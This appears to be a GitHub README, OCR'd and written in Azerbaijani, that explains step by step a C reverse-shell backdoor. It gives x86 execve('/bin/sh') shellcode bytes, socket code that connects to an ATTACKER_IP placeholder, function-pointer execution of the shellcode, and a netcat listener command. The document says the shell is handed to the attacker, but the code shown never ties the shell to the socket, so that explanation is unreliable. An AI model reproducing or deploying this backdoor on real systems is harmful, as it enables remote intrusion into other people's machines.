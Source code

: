 # Backdoor-using-shellcode
Bu kod reverse shell yaratmaq üçün tipik malware texnikasıdır. Təhlükəsizlik testləri və qanuni sınaq (məsələn, öz test mühitində pentesting) üçün istifadə oluna bilər.
🔹 1) Kitabxanalar:
c
Копировать
Редактировать
#include <stdio.h>
#include <string.h>
#include <sys/socket.h>
#include <arpa/inet.h>
#include <unistd.h>
Bu kitabxanalar:

stdio.h – standart giriş/çıxış funksiyaları (məsələn, printf).

string.h – simli əməliyyatlar üçün (memset, strcpy, və s.).

sys/socket.h, arpa/inet.h – şəbəkə proqramlaşdırması üçün (socket yaratmaq və şəbəkəyə qoşulmaq).

unistd.h – proses idarəetməsi (close, exec və s.).

🔹 2) Shellcode:
c
Копировать
Редактировать
unsigned char shellcode[] =
"\x31\xc0\x50\x68\x2f\x2f\x73\x68"
"\x68\x2f\x62\x69\x6e\x89\xe3\x50"
"\x53\x89\xe1\xb0\x0b\xcd\x80";
Bu, x86 Linux üçün yazılmış execve("/bin/sh") shellcode-dur. Qısaca desək:

\x31\xc0 — EAX registrini təmizlə (xor eax, eax).

\x50 — stack-a NULL (0) qoy.

\x68\x2f\x2f\x73\x68 — //sh sətrini stack-a qoy.

\x68\x2f\x62\x69\x6e — /bin sətrini stack-a qoy.

\x89\xe3 — esp pointerini ebx-ə köçür (proqramın yolunu göstərəcək).

\x50 — NULL arqumenti stack-a qoy.

\x53 — /bin//sh-ə işarə edən göstəricini stack-a qoy.

\x89\xe1 — esp-ni ecx-ə köçür (argv[]).

\xb0\x0b — eax-ə 0xb (execve syscall nömrəsi) qoy.

\xcd\x80 — kernel-ə keç (int 0x80).

Bu kod execve("/bin/sh", NULL, NULL) çağırışı edəcək.

🔹 3) Əsas funksiyada addım-addım:
✅ Socket yarat

c
Копировать
Редактировать
int sockfd;
struct sockaddr_in server;

sockfd = socket(AF_INET, SOCK_STREAM, 0);
TCP socket açılır.

AF_INET – IPv4 ünvan ailəsi.

SOCK_STREAM – TCP.

✅ Hücumçu IP və portunu təyin et

c
Копировать
Редактировать
server.sin_family = AF_INET;
server.sin_addr.s_addr = inet_addr("ATTACKER_IP");
server.sin_port = htons(ATTACKER_PORT);
ATTACKER_IP – hücumçunun dinləyici IP ünvanı.

ATTACKER_PORT – port nömrəsi.

✅ Bağlantı yarat

c
Копировать
Редактировать
connect(sockfd, (struct sockaddr *)&server, sizeof(server));
Bu funksiya hücumçuya qoşulmanı təmin edir. Yəni, hücumçu öz kompüterində nc -lvnp PORT kimi dinləyici açmalıdır.

✅ Shellcode icra et

c
Копировать
Редактировать
int (*ret)() = (int(*)())shellcode;
ret();
ret – funksiya göstəricisidir (int qaytaran və heç nə qəbul etməyən funksiya).

ret() çağırılaraq shellcode başlanğıc ünvanından kod icra olunur.

🔹 Nəticə
Proqram icra olunduqda:
1️⃣ Hücumçuya TCP bağlantı qurur.
2️⃣ Hücumçunun nc (netcat) və ya digər dinləyici proqramı ilə qoşulma qurulur.
3️⃣ shellcode icra edilir və hədəf maşında /bin/sh shell açılır.
4️⃣ Hücumçu bu shell üzərindən əmrlər icra edə bilir.
